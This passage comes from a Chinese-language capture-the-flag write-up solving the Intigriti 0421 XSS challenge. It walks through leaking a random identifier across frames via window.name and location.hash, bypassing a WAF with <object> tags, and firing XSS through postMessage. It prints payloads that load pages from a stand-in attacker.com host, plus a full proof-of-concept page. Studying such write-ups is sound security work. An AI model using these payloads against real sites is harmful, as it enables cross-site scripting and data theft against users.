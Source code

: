 ```
    topName = getTopName();
    char = keywords[topName-1];
    console.log("get_top_window.name: "+ topName);
    console.log("this_char: "+ char)
`}`
setTimeout(get_char,100);
&lt;/script&gt;
&lt;/body&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d4a20c4c535f73bf.png)

结合前面可以通过`window.name`值的累加推算出`identifier`某位的字符，现在又可以通过外部页面获得`top.name`值。通过获得的`top.name`值找到对应的字符，保存在`location.hash`中，继续构造循环及比较下去，即可推算出`identifier`的所有值。为了构造这个循环，需要对重新不停的重新载入题目页面，完成每一次的`identifier`每一位的求解，这里对payload进行了改进，插入两个`&lt;object ...`，通过加载一个空的Blob实现:

```
&lt;object name=poc data=//attacker.com/poc.html&gt;&lt;/object&gt;
&lt;object name=xss src=//attacker.com/xss.html onload=XSS&gt;&lt;/object&gt;

top.xss.location = URL.createObjectURL(new Blob([], `{` type: 'text/html'`}`));
```

[![](https://p1.ssl.qhimg.com/t01e781250e568bcee7.png)](https://p1.ssl.qhimg.com/t01e781250e568bcee7.png)

当成功泄露出`identifier`值后，即可构造`postMessage`消息，实现xss



## POC

综上，将所有的思路联合起来就能突破题目的各种限制：<br>
1.`&lt;object`绕过waf<br>
2.泄露`identifier`随机值<br>
3.构造`postMessage` 消息，触发xss

完整的POC如下：

```
&lt;html&gt;
&lt;body&gt;
    &lt;span&gt;Leaked identifier: &lt;code id=leakedIdentifier&gt;&lt;/code&gt;&lt;/span&gt;
    &lt;iframe sandbox="allow-scripts allow-top-navigation allow-same-origin" name="xss"&gt;&lt;/iframe&gt;
&lt;script&gt;
    const keywords = "0123456789abcdefghijklmnopqrstuvwxyz~"
    const payload = keywords.split('').map(c =&gt;       `location.hash+/$`{`c`}`/.source&lt;/##/.source+identifier&amp;&amp;++top.name`
    ).join(',')
    const thisUrl = location.href.replace('http://', 'https://');
    const top_url = 'https://challenge-0421.intigriti.io/?error=' + encodeURIComponent(
        `&lt;object style=width:100% name=x data=$`{`thisUrl`}`&gt;&lt;/object&gt;&lt;object data=` +
        `//$`{`location.host`}`/empty.html name=lload onload=$`{`payload`}`&gt;&lt;/object&gt;`
    );

     if (top === window) `{`
        let startxss = confirm("Start XSS?");
        if(!startxss) throw /stopped/;
        name = 0;
        location = top_url + '##'
        throw /stop/
     `}`

```
